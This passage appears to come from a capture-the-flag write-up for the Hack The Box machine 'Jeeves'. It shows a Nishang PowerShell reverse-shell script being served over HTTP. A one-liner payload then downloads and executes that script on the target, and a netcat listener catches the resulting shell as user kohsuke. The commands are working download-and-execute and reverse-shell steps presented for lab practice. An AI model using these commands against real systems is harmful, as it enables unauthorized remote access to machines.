 ![Pasted image 20210420202852.png](../../zzz_res/attachments/Pasted_image_20210420202852.png)

Serve the staged reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ cp /opt/post-expl/windows/nishang/Shells/Invoke-PowerShellTcp.ps1 revshell.ps1
  
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443' >> revshell.ps1
  
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ sudo python3 -m http.server 80 
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.63 - - [20/Apr/2021 14:39:59] "GET /revshell.ps1 HTTP/1.1" 200 -
```

Payload:

```powershell
powershell.exe -exec bypass -nop IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.14/revshell.ps1')
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Jeeves/exploit]
└─$ sudo nc -nlvp 443 
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.63] 49677
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins\workspace\revshell>whoami
jeeves\kohsuke
```
